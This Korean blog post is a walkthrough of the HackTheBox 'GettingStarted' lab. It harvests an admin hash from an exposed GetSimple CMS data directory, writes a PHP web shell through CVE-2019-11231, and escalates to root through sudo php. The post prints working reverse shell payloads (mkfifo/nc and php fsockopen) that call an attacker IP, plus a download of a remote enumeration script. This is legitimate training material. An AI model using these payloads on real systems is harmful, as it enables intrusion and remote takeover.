+++
title = '[HTB]-Gettingstarted write-up'
date = 2026-04-16T18:45:00+09:00
draft = false

categories = ["HTB", "pentesting", "Web Hacking"]
tags = ["HTB", "CVE-2019-11231", "CMS", "Web Hacking", "OSCP", "Burp Suite"]
description = "HackTheBox GettingStarted 풀이 — GetSimple CMS 3.3.15의 directory listing으로 노출된 /data/ 경로에서 인증 정보를 수집하고, 관리자 페이지를 통해 웹쉘을 업로드해 리버스 쉘을 획득하는 웹 해킹 입문 워크스루다."
+++

## Summary

이번 대상은 HTB GettingStarted 실습 머신으로, 노출된 서비스는 `22/tcp`와 `80/tcp` 두 개였다. 웹 애플리케이션을 살펴본 결과 GetSimple CMS 3.3.15가 동작하고 있었고, 웹 열거 과정에서 `/data/` 경로가 directory listing 상태라는 점을 확인할 수 있었다.

처음에는 `admin/admin`이 바로 통과돼서 약간 허무한 느낌도 있었지만, 그 상태로만 write-up을 쓰면 "운 좋게 기본 계정을 찍어서 들어간 것처럼" 보이기 쉽다. 실제로는 `/data/users/admin.xml`이 외부에서 열람 가능했고, 그 안에 포함된 관리자 비밀번호 해시를 크래킹해서 같은 자격증명에 도달할 수 있었다. 이 흐름이 훨씬 설득력 있는 공격 체인이라고 판단해, 본 문서에서는 그 과정을 중심으로 정리했다.

관리자 계정을 확보한 뒤에는 GetSimple CMS 3.3.15와 연관된 `CVE-2019-11231`을 참고해 theme editor 요청을 변조했고, 이를 통해 `/theme/Innovation/sh.php` 경로에 임의의 PHP 파일을 생성할 수 있었다. 먼저 `id` 명령을 실행하는 간단한 PHP 코드로 파일 쓰기와 코드 실행을 검증한 뒤, 같은 방식으로 reverse shell payload를 업로드해 `www-data` 셸을 획득했다.

권한 상승 단계에서는 `LinEnum`으로 빠르게 시스템을 점검했고, 이어서 `sudo -l`을 통해 `www-data` 사용자가 `/usr/bin/php`를 비밀번호 없이 실행할 수 있다는 점을 확인했다. 이 설정은 [GTFOBins](https://gtfobins.org/gtfobins/php/#reverse-shell)에 있는 PHP reverse shell 기법과 바로 연결되므로, 최종적으로 root 셸 획득까지 이어질 수 있었다.

### Attack Path

1. `nmap`으로 노출 서비스 식별
2. 브라우저와 `gobuster`로 GetSimple CMS 및 주요 경로 확인
3. `/data/` directory listing을 통해 `/data/users/admin.xml` 열람
4. SHA-1 해시 크래킹으로 `admin:admin` 자격증명 확보
5. 관리자 세션 상태에서 theme editor 요청 변조
6. `/theme/Innovation/sh.php`에 PHP 파일 생성 및 RCE 검증
7. reverse shell로 `www-data` 셸 획득
8. `sudo /usr/bin/php`를 이용해 root shell 획득

## 1. Recon

### 1.1 Port Scan

문제에서는 기본적으로 IP만 제공되기 때문에, 가장 먼저 `nmap`으로 어떤 서비스가 외부에 노출되어 있는지 확인했다.



기본 스캔 결과 `22/tcp`와 `80/tcp`가 열려 있었다. 포트 구성상 SSH보다는 웹 서버가 주 공격 표면일 가능성이 높아 보였기 때문에, `-sV -sC` 옵션으로 서비스 버전과 추가 정보를 확인했다.



확인된 내용은 다음과 같다.

- SSH: `22/tcp`
- HTTP: `80/tcp`
- Web Server: `Apache 2.4.41`
- OS: `Ubuntu Linux`

웹 서버가 확인된 만큼 이후 단계는 웹 애플리케이션 분석에 집중하기로 했다.

### 1.2 Web Fingerprinting

브라우저로 직접 접속해보니 대상은 CMS 기반 웹사이트였고, 화면 구성과 문구를 통해 GetSimple CMS라는 점을 확인할 수 있었다. 랜딩 페이지에는 다음과 같은 특징이 그대로 노출되어 있었다.

- XML based data storage
- Best-in-Class User Interface
- Undo protection & backups
- Easy to theme
- Great documentation
- Growing community

이 시점에서 얻은 핵심 단서는 두 가지였다.

1. CMS 특성상 관리자 페이지, 파일 관리, 테마 편집, 플러그인 기능이 모두 공격 표면이 될 수 있다.
2. 정확한 버전까지 식별할 수 있다면 공개 취약점과 연결할 가능성이 높다.

## 2. Enumeration

### 2.1 Directory Enumeration

숨겨진 경로를 더 찾기 위해 `gobuster`로 디렉터리 열거를 진행했다.



결과를 보면 꽤 의미 있는 URI들이 노출되어 있었고, 그중에서도 관리자 페이지와 데이터 저장 경로로 보이는 디렉터리가 눈에 띄었다. 우선 관리자 페이지로 추정되는 경로에 접속해보았다.



여기서 `admin/admin` 조합이 실제로 로그인에 성공했다. 다만 이 사실만 적어두면 "기본 계정이 우연히 맞아서 끝난 문제"처럼 보일 수 있다. 그래서 이후에는 실제로 관리자 계정 정보를 확인할 수 있었던 경로도 함께 정리하는 쪽이 더 낫다고 판단했다.

로그인 이후 관리자 화면 하단에서는 GetSimple CMS 버전이 `3.3.15`라는 점도 확인할 수 있었다. 이 정보는 이후 취약점 조사 단계에서 중요한 단서가 되었다.

### 2.2 Admin Panel Capability Review

관리자 페이지 접근이 가능해진 뒤에는 어떤 기능이 서버 측 파일 쓰기나 코드 실행으로 이어질 수 있을지 빠르게 훑어봤다.

| 메뉴 | 관찰 포인트 |
| --- | --- |
| Pages | 페이지 생성 및 수정 가능 여부 |
| Files | 파일 업로드 또는 디렉터리 생성 가능 여부 |
| Theme | 테마 파일 수정, 컴포넌트 편집 가능 여부 |
| Backups | 백업 파일 노출 가능성 |
| Plugins | 플러그인 설치 및 활성화 여부 |
| Settings | PHP 버전, `disable_functions`, 데이터 파일 경로 등 환경 정보 |

이 단계의 목적은 단순 기능 확인이 아니라, "어디서 파일이 써질 수 있는가", "어디서 코드 실행으로 이어질 수 있는가", "민감한 경로가 노출되는가"를 빠르게 추려내는 것이었다.

### 2.3 Credential Access via Exposed Files

초기에는 path traversal처럼 보일 수도 있다고 생각했지만, 실제로는 그보다는 `/data/` 디렉터리 자체가 외부에 노출된 directory listing 상태였다고 보는 편이 더 정확하다.

`gobuster`로 확인한 `http://10.129.71.118/data/` 경로에 직접 접근해보면 내부 파일 목록을 브라우저에서 확인할 수 있었고, 그 안에서 `/data/users/admin.xml` 파일도 읽을 수 있었다.



이 파일에는 관리자 계정 관련 데이터가 XML 형태로 저장되어 있었고, 비밀번호는 평문이 아니라 SHA-1 해시로 보이는 값으로 저장되어 있었다.

```text
d033e22ae348aeb5660fc2140aec35850c4da997
```

처음에는 정확한 해시 타입을 확신할 수 없어서 `John the Ripper`로 식별 겸 크래킹을 시도했다. "해시 타입만 먼저 확인해보자"는 생각이었는데, 결과적으로 패스워드까지 바로 풀렸다. 이런 도구는 나중에 따로 더 깊게 공부해볼 필요가 있겠다는 생각도 들었다.

스크린샷 기준으로 `john`은 해당 값을 Raw-SHA1 계열로 인식했고, dictionary attack 결과 비밀번호가 `admin`이라는 점을 확인할 수 있었다.



즉, `admin/admin`이 로그인된 것은 단순한 우연이라기보다, 노출된 파일을 통해 실제로 검증 가능한 자격증명이었던 셈이다.

추가로 `/theme/Innovation/` 경로도 브라우저에서 확인 가능했는데, 이 경로는 나중에 임의 PHP 파일을 생성한 뒤 실제 접근 경로를 판단하는 데 도움이 되었다.

## 3. Initial Access

### 3.1 Theme Editor Review

관리자 권한을 확보한 뒤에는 가장 먼저 서버 측 파일 쓰기와 연결될 가능성이 있는 기능을 살펴봤다. 그중 가장 눈에 들어온 것은 Theme 편집 기능이었다.



처음에는 "그냥 기존 PHP 템플릿 파일을 수정해서 웹쉘처럼 쓸 수 있지 않을까?"라고 생각했지만, 실제로는 그렇게 단순하지 않았다. 테마 디렉터리 아래의 PHP 파일에 직접 접근하면 `you cannot load this page directly.` 메시지가 출력되었고, 따라서 기존 PHP 파일을 조금 수정하는 방식만으로는 원하는 형태의 코드 실행으로 이어지지 않았다.



`Edit Components` 기능도 함께 살펴봤지만, 이 기능은 HTML 조각을 재사용하는 성격에 더 가까워 보였고, 파일 업로드 취약점처럼 바로 악용할 만한 지점은 아니라고 판단했다.



### 3.2 Public Vulnerability Research

GetSimple CMS `3.3.15`라는 버전 정보가 확보된 만큼, 공개된 취약점을 찾아보는 것이 자연스러운 다음 단계였다. 검색 결과 `CVE-2019-11231`이 관련 취약점으로 확인됐다.

- 참고: [NVD - CVE-2019-11231](https://nvd.nist.gov/vuln/detail/CVE-2019-11231)

핵심은 `theme-edit.php` 계열 기능에서 입력값 검증이 미흡해, 특정 조건에서 공격자가 의도한 내용을 서버 측 파일에 기록할 수 있다는 점이다. 일부 자료에서는 세션이나 nonce 처리까지 함께 언급하지만, 이번 실습에서는 이미 관리자 세션을 확보한 상태였기 때문에 그 부분까지 재현할 필요는 없었다.

즉, 이번 케이스에서 중요한 것은 "인증 우회 전체를 재현했는가"가 아니라, "확보한 관리자 권한으로 theme editor 요청을 변조했을 때 실제로 임의 PHP 파일 생성이 가능한가"였다.

### 3.3 Request Tampering for File Write

실제 검증은 Burp Suite를 이용해 theme editor 요청을 가로채고 필요한 파라미터를 수정하는 방식으로 진행했다. 핵심 아이디어는 다음과 같았다.

- URL parameter의 `f` 값을 새 파일명으로 변경
- Request Body의 `content` 값에 PHP 코드를 URL encoding하여 삽입
- `edited_file` 파라미터도 생성할 파일명에 맞게 수정

먼저 아래와 같은 아주 단순한 PHP 코드로 검증했다.

```php
<?php system('id'); ?>
```

정상 요청과 변조 요청은 각각 아래 스크린샷에서 확인할 수 있다.





변조된 요청이 `200 OK`로 처리된 뒤, `/theme/Innovation/sh.php`에 접근해보면 `id` 명령 결과가 출력되었다. 이 시점에서 "파일 쓰기 가능 여부"와 "PHP 코드 실행 가능 여부"가 모두 검증된 셈이다.



결과적으로 관리자 세션을 가진 상태에서 theme editor 요청을 변조하면, `/theme/Innovation/` 아래에 공격자가 원하는 PHP 파일을 생성하고 실행할 수 있었다.

## 4. Remote Code Execution

파일 생성과 코드 실행이 가능하다는 점이 확인됐으므로, 다음 단계는 안정적인 셸을 얻는 것이었다. 이를 위해 같은 방식으로 PHP reverse shell payload를 삽입했다.

```php
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [ATTACK_IP] [PORT] >/tmp/f"); ?>
```

해당 코드를 URL encoding한 뒤, 앞 단계와 동일하게 요청을 변조해 서버에 저장했다. 이후 생성된 파일에 직접 요청을 보내면 공격자 장비에서 reverse shell 연결이 수립된다.

```shell
curl -s http://10.129.71.118/theme/Innovation/sh.php
```



이후 TTY를 조금 더 다루기 쉽게 만들기 위해 다음 명령을 사용했다.

```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

완전한 TTY 복구를 위해 자주 함께 사용하는 `export TERM=xterm`, `stty raw -echo; fg`까지는 이번에는 적용하지 않았다. 그래서 엄밀히 말하면 "완전히 안정화된 TTY"보다는 "기본적인 interactive shell 확보"에 가까웠다.

## 5. Privilege Escalation

### 5.1 Enumeration as www-data

초기 셸을 획득한 뒤에는 권한 상승 지점을 찾기 위해 `LinEnum`을 사용했다. 자동화 도구가 항상 정답을 주는 것은 아니지만, 빠르게 전반적인 환경을 훑어보기에는 충분히 유용했다.

공격자 장비에서는 간단한 HTTP 서버를 열고:

```shell
python3 -m http.server 8080
```

대상 장비에서는 `LinEnum.sh`를 내려받아 실행했다.

```shell
wget <IP:PORT>/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
```

공격자 장비 로그를 보면 파일이 정상적으로 전달된 것을 확인할 수 있다.

```text
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.129.71.118 - - [16/Apr/2026 16:08:02] "GET /LinEnum.sh HTTP/1.1" 200 -
```



### 5.2 Sudo Misconfiguration

가장 중요한 결과는 `www-data` 사용자가 `sudo`를 통해 `/usr/bin/php`를 비밀번호 없이 실행할 수 있다는 점이었다. 이 권한은 결국 "root 권한으로 PHP 인터프리터를 실행할 수 있다"는 의미이므로, 임의 명령 실행이나 reverse shell과 바로 연결될 수 있다.

이 부분은 `LinEnum` 결과로도 확인할 수 있었지만, 실제로는 `sudo -l`로 한 번 더 직접 확인해보는 편이 더 명확하다.

```shell
sudo -l
Matching Defaults entries for www-data on gettingstarted:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

User www-data may run the following commands on gettingstarted:
    (ALL : ALL) NOPASSWD: /usr/bin/php
```

여기서 핵심은 `NOPASSWD: /usr/bin/php` 부분이다. 이 한 줄만으로도 권한 상승 방향은 거의 정해졌다고 볼 수 있다.

### 5.3 Root Shell via GTFOBins

`php`는 [GTFOBins - php](https://gtfobins.org/gtfobins/php/#reverse-shell)에도 대표적인 권한 상승 예시가 정리되어 있다. 따라서 별도 우회 기법을 찾기보다는, 이미 정리된 payload를 그대로 응용하는 것이 가장 빠른 선택이었다.

대상 장비에서는 다음 명령을 실행한다.

```shell
sudo /usr/bin/php -r '$sock=fsockopen("ATTACK_IP",PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
```

공격자 장비에서는 리스너를 열어둔다.

```shell
nc -lvp 3434
```

그 결과 root 권한 셸을 획득할 수 있었고, 최종적으로 플래그 확인까지 이어졌다.



## 6. Lessons Learned

gettingstarted section을 풀면서 흥미로웠던 점은, 단일한 "강력한 한 방"보다는 노출된 기능과 버전 정보를 차근차근 연결했을 때 전체 공격 체인이 완성된다는 점이었다.

정리하면 다음과 같은 포인트를 얻을 수 있었다.

- CMS 기반 서비스에서는 관리자 페이지, 테마 편집, 파일 저장 구조 자체가 중요한 공격 표면이 된다.
- 버전 식별은 매우 중요하다. 서비스 버전 하나만 확보해도 공개 취약점 조사 방향이 훨씬 선명해진다.
- 이번 케이스는 path traversal이라기보다 `/data/` 경로의 directory listing을 통해 민감한 XML 파일이 노출된 사례로 보는 편이 더 정확하다.
- 자동화 도구는 빠른 탐색에는 유용하지만, 실제 권한 상승 근거는 결국 `sudo -l` 같은 직접적인 확인에서 나온다.

개인적으로는 처음 `admin/admin`이 바로 맞았을 때보다, 그 자격증명이 `/data/users/admin.xml`을 통해 실제로 검증된다는 사실을 확인했을 때 훨씬 write-up다운 흐름이 잡혔다고 느꼈다. 그래서 이 문제는 단순히 "기본 계정 로그인"으로 적기보다는, 노출된 데이터 파일에서 자격증명을 수집하고 이를 이용해 관리자 권한과 RCE로 이어진 케이스로 정리하는 편이 더 자연스럽다고 생각한다.

이렇게 문서를 작성하는 것이 상당히 오랜 시간이 걸리지만, 쓰다 보면 속도가 빨라질 것이고 분명 문서를 정리하면서 내용을 다시 한 번 보게 되고 놓쳤던 부분을 확인할 수 있어서 확실한 공부가 되는 것 같다. 계속해서 문서 작성하는 연습을 해나가야겠다.
